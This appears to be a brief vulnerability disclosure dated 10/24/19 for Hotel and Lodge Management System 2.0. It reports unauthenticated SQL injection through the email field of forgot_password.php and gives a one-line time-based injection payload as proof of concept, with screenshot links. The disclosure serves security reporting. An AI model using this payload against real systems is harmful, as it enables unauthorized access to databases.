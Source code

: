 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Hotel and Lodge Management System is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'Email'.

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)
